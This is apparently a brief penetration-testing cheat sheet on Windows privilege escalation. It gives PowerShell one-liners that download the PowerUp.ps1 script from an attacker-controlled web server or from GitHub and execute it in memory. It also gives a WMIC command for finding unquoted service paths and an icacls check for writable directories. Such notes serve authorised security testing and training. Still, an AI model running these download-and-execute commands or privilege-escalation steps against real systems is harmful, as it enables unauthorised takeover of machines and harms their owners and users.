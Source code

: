 # Privilege Escalation

## PowerUp.ps1

Link https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

Download and run from attacker's machine

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/PowerUp.ps1');Invoke-AllChecks
```

Download and run from internet

```
powershell iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Invoke-AllChecks
```


## Hunt for unquoted service paths

The following query will use WMIC to look for services set to auto start in the `C:\Windows` directory without properly quoting spaces in the path:

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
You can then use the `icacls <directory>` to check for `FULL (F)` or `write (W)` permissions on the vulnerable directory *based on the group of your current user*: 

```
> icacls c:\PS 

c:\PS CORP\someusername:(OI)(CI)(M)
NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```


